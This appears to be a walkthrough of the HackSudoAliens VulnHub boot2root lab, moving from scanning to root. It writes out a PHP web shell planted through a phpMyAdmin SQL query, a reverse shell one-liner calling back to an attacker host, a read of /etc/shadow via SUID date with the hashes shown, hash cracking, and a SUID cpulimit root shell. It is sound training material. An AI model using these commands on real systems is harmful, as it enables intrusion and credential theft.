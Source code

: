 ```yaml
---
description: >-
  Walkthrough for the HackSudoAliens boot2root machine on VulnHub
title: "HackSudoAliens VulnHub Walkthrough"
categories: [Walkthrough]
tags: [walkthrough, ctf, vulnhub]
date: 2024-04-28 23:48:00 -0500
---
```

This is a walkthrough for the [HackSudoAliens](https://www.vulnhub.com/entry/hacksudo-aliens,676/) boot2root machine on VulnHub.  
## Enumeration
Ran nmap to enumerate services running on the target machine  
`sudo nmap -A -p- 10.0.3.61`
>Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-24 10:36 EDT  
Nmap scan report for 10.0.3.61  
Host is up (0.00050s latency).  
Not shown: 65532 closed tcp ports (reset)  
PORT     STATE SERVICE VERSION  
**22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)**  
\| ssh-hostkey:   
\|   2048 31d856f4cf8b09e8a15e2eddac086bdd (RSA)  
\|   256 cd65ec9ed02c6b4e0240c3fd015dd187 (ECDSA)  
\|\_  256 0300280e0bda1268c3c545abbb9292fa (ED25519)  
**80/tcp   open  http    Apache httpd 2.4.38 ((Debian))**  
\|\_http-server-header: Apache/2.4.38 (Debian)  
\|\_http-title: Hacksudo Alien?  
**9000/tcp open  http    Apache httpd 2.4.38 ((Debian))**  
\|\_http-server-header: Apache/2.4.38 (Debian)  
\| http-robots.txt: 1 disallowed entry   
\|\_/  
**\|\_http-title: phpMyAdmin**  

Ran nikto to enumerate information and potential vulnerabilities for the web server running on port 80  
`sudo nikto -h http://10.0.3.61`
>\- Nikto v2.5.0  
\---------------------------------------------------------------------------  
\+ Target IP:          10.0.3.61  
\+ Target Hostname:    10.0.3.61  
\+ Target Port:        80  
\+ Start Time:         2023-07-24 10:38:18 (GMT-4)  
\---------------------------------------------------------------------------  
\+ Server: Apache/2.4.38 (Debian)  
[snip]  
**\+ /backup/: Directory indexing found.**  
**\+ /backup/: This might be interesting.**  

Ran nikto to enumerate information and potential vulnerabilities for the web server running on port 9000  
`sudo nikto -h 10.0.3.61 -p 9000`  
>\- Nikto v2.5.0  
\---------------------------------------------------------------------------  
\+ Target IP:          10.0.3.61  
\+ Target Hostname:    10.0.3.61  
\+ Target Port:        9000  
\+ Start Time:         2023-07-24 10:38:35 (GMT-4)  
---------------------------------------------------------------------------  
\+ Server: Apache/2.4.38 (Debian)  
[snip]  
**\+ /setup/: This might be interesting.**  

Discovered a config backup file with MySQL credentials in it  
![mysql backup file](../images/hacksudoaliens_mysqlbackup.png)  

The webserver on port 9000 has a phpMyAdmin server running on it  
![phpMyAdmin login page](../images/hacksudoaliens_phpmyadmin_loginpage.png)  

And there's a phpMyAdmin setup page with an option to add a server  
![phpMyAdmin setup page](../images/hacksudoaliens_phpmyadmin_setup.png)  

Added the localhost MySQL server and configured the credentials from the config backup file that was discovered earlier  
![Adding server to phpMyAdmin](../images/hacksudoaliens_phpmyadmin_addserver.png)  

Signed in to the localhost MySQL server with the previously discovered credentials and began browsing  
![phpMyAdmin homepage](../images/hacksudoaliens_phpmyadmin_homepage.png)  

## Exploitation

Found an [article](https://www.netspi.com/blog/technical/network-penetration-testing/linux-hacking-case-studies-part-3-phpmyadmin/) that details how to upload a reverse shell file via phpMyAdmin and attempted to upload a shell to /var/www/html (a common directory for web server files to be placed in)  
```sql
SELECT "<HTML><BODY><FORM METHOD=\"GET\" NAME=\"myform\" ACTION=\"\"><INPUT TYPE=\"text\" NAME=\"cmd\"><INPUT TYPE=\"submit\" VALUE=\"Send\"></FORM><pre><?php if($_GET['cmd']) {​​system($_GET['cmd']);}​​ ?> </pre></BODY></HTML>" INTO OUTFILE '/var/www/html/cmd.php'
```
![phpMyAdmin shell upload](../images/hacksudoaliens_phpmyadmin_shellsuccess.png)  

Navigated to where the shell would likely be located  
![shell webpage](../images/hacksudoaliens_phpmyadmin_shell_whoami.png)  
Success!  

Ran `nc -lvp 1234` to start a nc listener on port 1234  
Sent a reverse shell string to be executed by the web shell  
`php -r '$sock=fsockopen("10.0.3.1",1234);exec("sh <&3 >&3 2>&3");'`  
![reverse shell](../images/hacksudoaliens_reverseshell.png)  
Got a reverse shell running as www-data!  

## Privilege Escalation - hacksudo
Transferred over and ran linpeas and discovered that the date binary has the SUID bit set  
>╔══════════╣ SUID - Check easy privesc, exploits and write perms  
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                      
---Sr-xr-x 1 root root 107K Feb 28  2019 /usr/bin/date               

According to [GTFOBins](https://gtfobins.github.io/gtfobins/date/#suid), when date has the SUID bit set, it can be abused to read sensitive files  
![GTFOBins date](../images/hacksudoaliens_date_gtfobins.png)  

Read the contents of /etc/shadow  
`LFILE=/etc/shadow`  
`date -f $LFILE`  
![date file permission abuse](../images/hacksudoaliens_date_shadow.png)  

Got the hashes of hacksudo and root, listed below in order  
>$6$cOv4E/VKAe0EVwV4$YScCx10zfi7g4aiLY.qo8QPm2iOogJea41mk2rGk/0JM5AtnrmiyTN5ctNJ0KTLS5Iru4lHWYPug792u3L/Um1  
$6$N6p.dpWhPYXSXC9U$8EraUiQ5DtMF5ov2ZbnY8DoLK1liRukqhTnTTK67MQ.tgpglkVX/I9P1aYjNeO/cwjQk9lJ/ABd9YLTMeMSn3/  

Placed the hashes into a file named "hash" and ran hashcat against it with the rockyou.txt wordlist  
`hashcat hash /usr/share/wordlists/rockyou.txt`  
![Cracked hash](../images/hacksudoaliens_hashcat_hacksudo.png)  
Cracked the hacksudo user's hash: aliens  

Was able to SSH into the target machine using the `hacksudo:aliens` credentials  

### user.txt flag
![user.txt flag](../images/hacksudoaliens_flag_user.png)  

## Privilege Escalation - root
Found a file named "cpulimit" with the SUID bit set in hacksudo's Downloads directory  
![cpulimit](../images/hacksudoaliens_cpulimit.png)  

According to [GTFOBins](https://gtfobins.github.io/gtfobins/cpulimit/#suid), cpulimit's SUID permissions can be abused to escalate privileges by running the following:  
`cpulimit -l 100 -f -- /bin/sh -p`  
![Privilege escalation](../images/hacksudoaliens_privesc.png)  
Successfully elevated privileges to root

### root.txt flag
![root.txt flag](../images/hacksudoaliens_flag_root.png)
